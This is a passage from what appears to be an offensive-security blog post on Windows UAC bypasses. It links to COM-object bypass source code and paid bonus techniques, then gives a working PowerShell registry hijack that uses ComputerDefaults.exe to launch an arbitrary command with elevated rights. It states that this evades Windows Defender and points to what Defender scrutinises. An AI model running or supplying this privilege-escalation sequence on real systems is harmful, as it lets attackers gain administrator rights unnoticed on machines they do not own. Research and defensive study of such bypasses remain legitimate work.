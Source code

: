 Compile and run that, and you'll be greeted with your elevated command prompt 🙂

![image](https://github.com/user-attachments/assets/119d2c0c-a294-4cc3-aabd-ad322d4a73e2)

This is an incredibly useful UAC bypass technique and fun to learn too!  It doesn't work on ALWAYS notify UAC setting, but otherwise it should work in all other use cases.
thanks and now on to the easier UAC bypass methods in the next sections :)

As always, full source code can be found in my github repo:

[Source Code](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2024-10-16-Creative%20UAC%20Bypass%20Methods%20for%20the%20Modern%20Era/CSMTP%20COM%20interface%20UAC%20Bypass)

🔒 Bonus Content for Subscribers (Using PEB Masquerading to elevate our cmd.exe using CMSTPLUA COM object UAC Bypass!)
-

> Description: This supplements the COM Object UAC bypass method we learned about today with the PEB masquerading technique.  This time, no DLL injection will be required and we make our process look like it's running as explorer.exe

🗒️ [Access Code Here](https://ko-fi.com/s/1d5e78a48a) 🗒️

<hr>

🔒 Bonus Content for Subscribers (COM objects - A Deeper exploration)
-

> Description: This is a deeper investigation into COM objects prompted by a curious reader of my blog. This supplements the COM Object UAC bypass method I write about on by UAC bypasses for the modern era post.

🗒️ [Access Writeup Here](https://ko-fi.com/s/4bde51ae7b) 🗒️

<hr>


***UAC Bypass #2 - Revisiting an old technique! (Detection Status: Undetected via Windows Defender)***
-

We're going to be revisiting a tried and true UAC Bypass method that still works just fine as of writing this post, 3/20/2025.  (Microsoft if you're reading this I'm on to you!)  I thought to myself,"Windows Defender can't be blocking all these classic UAC bypass methods."  Sure enough, their filters aren't that impressive.  We're going to be working with the `ComputerDefaults.exe` executable in the `C:\Windows\System32` directory.  Here's how it works:

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "[yourexecutable or command]" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

This parameter is what Windows Defender scrutinizes the most: `-Value "[yourexecutable or command]"`
